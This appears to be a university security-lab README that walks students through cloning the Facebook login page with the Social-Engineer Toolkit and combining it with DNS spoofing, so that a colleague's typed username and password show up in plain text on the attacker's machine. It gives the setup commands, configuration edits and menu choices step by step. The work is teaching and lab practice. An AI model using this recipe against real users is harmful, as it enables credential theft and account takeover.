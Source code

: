 # Phishing Attack

Phishing is a type of social engineering where an attacker sends a fraudulent (e.g., spoofed, fake, or otherwise deceptive) message designed to trick a person into revealing sensitive information to the attacker (a password or credential) or to deploy malicious software on the victim's infrastructure like ransomware.

Phishing attacks have become increasingly sophisticated and often transparently mirror the site being targeted, allowing the attacker to observe everything while the victim is navigating the site, and transverse any additional security boundaries with the victim. 
 
Phishing is by far the most common attack performed by cybercriminal

## Facebook Phishing Attack
### **Goal**
In this session, our goal is to clone the facebook website and to apply a [**dns spoofing**](https://github.com/fpacenza/NetworkAndSecurity/tree/main/Other%20MITM%20Attacks/DNS%20Spoofing) attack using ettercarp in order to retrieve victim's credentials.

### **Settings**
Work in group with another collegue in order to work on your own laptop (avoiding GNS3 lab)
 * **Attacker:** you (in my case **192.168.1.135**)
 * **Victim:** your collegue (in my case **192.168.1.132**)
 * **Router:** you can use your phone. Both the **Attacker** and the **Victim** must be connected to the same network 

### **Steps**
 1. Follow the guideline in order to perform a [**dns spoofing**](https://github.com/fpacenza/NetworkAndSecurity/tree/main/Other%20MITM%20Attacks/DNS%20Spoofing) attack against the victim ip address
 2. Install ***S**oftware **E**ngineering **Toolkit*** (**setoolkit**)

        git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
        cd set
        sudo python3 setup.py install
 3. Install **Apache2**

        sudo apt update
        sudo apt install apache2
 4. Install and enable **libapache2-mod-php**
        
        sudo apt install libapache2-mod-php*
        sudo a2enmod libapache2-mod-php
    * **Attention:** if comaptibility errors with libapache2-mod-php**5** are shown, disable module libapache2-mod-php

 5. Configure setoolkit

        sudo su
        pico /etc/setoolkit/set.config

    * Edit the following parameters:
        
        * **APACHE_SERVER ON**
        * **APACHE_DIRECTORY /var/www/html**
 6. Run **setoolkit** as superuser
    
        sudo setoolkit

 7. Use the interactive shell to clone the facebook website

        enter 1 - Social-Engineering Attacks
        enter 2 - Website Attack Vectors
        enter 3 - Credential Harvester Attack Method
        enter 2 - Site Cloner
 8. Enter your (**Attacker**) ip address
 9. Enter the website url you want to clone, (e.g., **www.facebook.com**)
 10. On the **Victim** side try to ping **www.facebook.com**

            ping -n www.facebook.com
    
        * You should see the ip address of the **Attacker** instead of the ip address of the (real) facebook server
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/Phishing/1.dns_spoof_ping_test.png?raw=true)

 11. Navigate **www.facebook.com** from the **Victim** pc
 12. Fillin **username** and **password** fields
 13. Come back to **Attacker** machine e see in **plain text** the username and password as filled in by the **Victim**
 ![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/Phishing/2.phishing.png?raw=true)

**Attention:** if the **Victim** browser has the auto-redirect to https option enabled, the **Victim** will be redirected to **https** web page so, you need to enable also the **ssl** module on your **apache2** webserver 